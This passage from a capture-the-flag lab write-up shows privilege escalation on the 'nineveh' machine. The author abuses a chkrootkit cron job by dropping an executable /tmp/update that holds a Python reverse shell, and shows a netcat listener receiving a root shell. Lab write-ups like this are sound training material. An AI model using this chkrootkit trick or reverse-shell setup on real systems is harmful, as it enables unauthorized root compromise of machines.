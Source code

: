 ~~~
amrois@nineveh:/tmp$ ls -lah /report/
total 64K
drwxr-xr-x  2 amrois amrois 4.0K Feb  6 11:06 .
drwxr-xr-x 24 root   root   4.0K Jul  2  2017 ..
-rw-r--r--  1 amrois amrois 4.8K Feb  6 11:00 report-18-02-06:11:00.txt
-rw-r--r--  1 amrois amrois 4.8K Feb  6 11:01 report-18-02-06:11:01.txt
-rw-r--r--  1 amrois amrois 4.8K Feb  6 11:02 report-18-02-06:11:02.txt
-rw-r--r--  1 amrois amrois 4.8K Feb  6 11:03 report-18-02-06:11:03.txt
-rw-r--r--  1 amrois amrois 4.8K Feb  6 11:04 report-18-02-06:11:04.txt
-rw-r--r--  1 amrois amrois 4.8K Feb  6 11:05 report-18-02-06:11:05.txt
-rw-r--r--  1 amrois amrois 4.8K Feb  6 11:06 report-18-02-06:11:06.txt
~~~

After a research on google I discovered that the reports were generated by chkrootkit. Because of crontab, I supposed it was vulnerable to [this](https://www.exploit-db.com/exploits/33899/) exploit. As described I created a file in /tmp that execute a python reverse shell called update and I got it:

~~~
root@kali:~# nc -vlp 5555
listening on [any] 5555 ...
connect to [10.10.14.6] from nineveh.htb [10.10.10.43] 60862
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
~~~

:-)